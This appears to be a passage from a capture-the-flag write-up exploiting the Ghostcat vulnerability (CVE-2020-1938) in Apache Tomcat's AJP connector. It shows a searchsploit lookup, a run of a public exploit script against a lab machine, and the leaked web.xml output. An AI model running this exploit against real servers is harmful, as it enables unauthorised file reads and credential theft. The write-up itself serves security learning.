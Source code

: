 
> *You can refer to <a href="https://nvd.nist.gov/vuln/detail/CVE-2020-1938" target="_blank"><er>https://nvd.nist.gov/vuln/detail/CVE-2020-1938</er></a> for more informations*

## **<strong><font color="Brown">Exploitation</font></strong>**
***
→ With that being said, let's search for an exploit against ```The AJP Connector``` using ```searchsploit``` : 
```console
root@kali# searchsploit AJP
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                    | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                    | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)      | multiple/webapps/49039.rb
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
→ Here, i'm going to use the Non-Metasploit version :
```console
root@kali# python3 /usr/share/exploitdb/exploits/multiple/webapps/48143.py     
usage: 48143.py [-h] [-p PORT] [-f FILE] target
48143.py: error: the following arguments are required: target
```
→ As you can see, the exploit only requires us to add the target as an argument
<br/>
→ The problem is that when i ran it, i came accross some errors which forced me to make some troubleshooting in order for the exploit to run as intended.

> *You can find the modified version in my Gihub repository <a href="https://github.com/YounesTasra-R4z3rSw0rd/CVE-2020-1938/blob/main/GhostCat_Exploit.py" target="_blank"><er>here</er></a>*

→ After running the exploit, i noticed some misplaced credentials :
```console
root@kali# python3 GhostCat_Exploit.py <MACHINE_IP>                                            
Getting resource at ajp13://<MACHINE_IP>:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">
```